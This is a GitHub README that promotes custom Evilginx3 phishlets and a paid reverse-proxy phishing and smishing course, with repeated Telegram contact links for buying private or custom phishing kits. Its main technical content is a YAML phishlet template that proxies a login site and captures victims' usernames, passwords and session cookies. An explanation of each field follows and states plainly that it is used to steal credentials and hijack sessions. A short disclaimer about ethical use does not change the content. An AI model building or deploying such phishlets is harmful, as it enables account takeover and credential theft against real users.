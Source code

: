# Updated Evilginx3 Phishlets      
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.


# FOR [Advanced EvilGoPhish Mastery Course] CONTACT IN MY TELEGRAM  -  https://t.me/hidden9090         

     

This is a course for the advanced hackers, red teams, and penetration testers looking to gain an edge in today's security environment. 
Learn advanced phishing & smishing techniques with EvilGoPhish 3.0, one of the most powerful reverse-proxy phishing tools available.

EvilGoPhish Mastery is *bar none* the most dynamic and nuanced reverse-proxy phishing course on the market.

The course works in tandem with this repo by diving deep into the entire process of deploying these scripts for red team phishing & smishing campaigns.



# Curriculum Previews:

![Screenshot 2024-06-01 064917](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/f506630f-06ff-4285-9c09-26fbcf57a588)
![evilgophish 3 0 course preview release setup section trailer](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/9be0b731-6934-4d52-ba7c-becb43141a96)
![Evilgophish mastery course cloudflare turnstile lesson preview www simplerhacking](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/0c22ecc6-9b6d-44c0-bf3f-e8624ecbd917)

![Screenshot 2024-06-01 044437](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a295035-e41a-4c9a-956a-c0366129088c)



![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (1)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cb043987-2315-47dc-abf6-9e508d7c1128)

![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (2)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a3dd41e-72b4-4701-9675-53f8c765a246)

![(Smaller 8 MB for Github) evilgophish kuba graphic in moving format and gif short 8 second loop](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cba899aa-e100-4af9-b621-f5dce14b2786)




## Need Custom Phishlets? 
MY TELEGRAM  -  https://t.me/hidden9090


##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0


```

CONTACT :- MY TELEGRAM - https://t.me/hidden9090



**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.



## Want more Evilginx Phishlets not available on Github? 
Gain access to more private Phishlets not available to the public Contact me  -  https://t.me/hidden9090




<img width="264" alt="Patreon" src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/3e9d587d-0792-4dad-a6d2-aaa004197508">



### Enroll in our training lessons            

CONTACT :-
MY TELEGRAM  -  https://t.me/hidden9090
## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.


https://t.me/+1tDzjSCGDDs0ODA9
